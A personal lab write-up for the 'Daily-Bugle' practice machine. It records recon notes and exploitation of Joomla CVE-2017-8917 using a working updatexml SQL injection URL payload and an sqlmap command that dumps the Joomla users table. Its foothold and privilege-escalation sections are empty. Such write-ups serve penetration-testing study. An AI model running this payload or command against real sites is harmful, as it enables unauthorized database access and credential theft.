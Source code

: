 # Daily-Bugle Writeup
Name: Daily-Bugle
Date:  23/09/2022
Difficulty:  Hard
Goals:  
- OSCP 2/5 Medium Machines with or without walkthough if need
- Practice SQLi revision from the morning
Learnt:
- I need to and have scheduled in a python scripting exploits day 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


[Joomla](https://www.joomla.org/) php 5.6.4
CentOS

![](www-webroot.png)

```
eaa83fe8b963ab08ce9ab7d4a798de05 
f7lrn1l0vo1vv9cmmqqc42d6l4
```

![](misfornatecookie.png)

## Exploit

Blind-Based Boolean SQLi 
![780](cve-2017-8917.png)


From looking [brainwrf](https://github.com/brianwrf/Joomla3.7-SQLi-CVE-2017-8917/blob/master/CVE-2017-8917.py)
```
/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(1,user()),1)
```
![](meanwhile.png)

Scripting Python day is somewhat long over due. I have done lots of l33tcode questions,  but for some reason the request library and solving problems by requesting stuff has yet, but soon stick..

```bash
sqlmap -u "http://10.10.94.98/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![](johan.png)

`#__users`



## Foothold

## PrivEsc

      
